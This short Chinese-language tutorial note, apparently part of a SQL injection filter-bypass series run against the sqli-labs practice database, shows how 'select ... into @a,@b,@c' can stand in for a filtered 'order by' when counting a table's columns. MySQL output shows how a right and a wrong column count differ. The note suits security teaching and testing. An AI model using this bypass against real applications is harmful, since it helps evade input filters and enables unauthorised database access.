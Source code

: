 ![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677657252026-8199ec04-4aea-47df-878f-b2c0b0ab2aa2.png)

# order by绕过 

当 order by 被过滤时，无法猜解字段数，此时可以使用 into 变量名进行代替。

```sql
mysql> use security
Database changed
mysql> select * from users where id=1;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
/* 数据库有3列 */

mysql> select * from users where id=1 order by 3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
+----+----------+----------+
1 row in set (0.00 sec)
/* 普通order by查询 */

mysql> select * from users where id=1 into @a,@b,@c;
Query OK, 1 row affected (0.00 sec)

mysql> select * from users where id=1 into @a,@b;
ERROR 1222 (21000): The used SELECT statements have a different number of columns
/* into查询，列数正确返回ok，列数错误返回error */
```
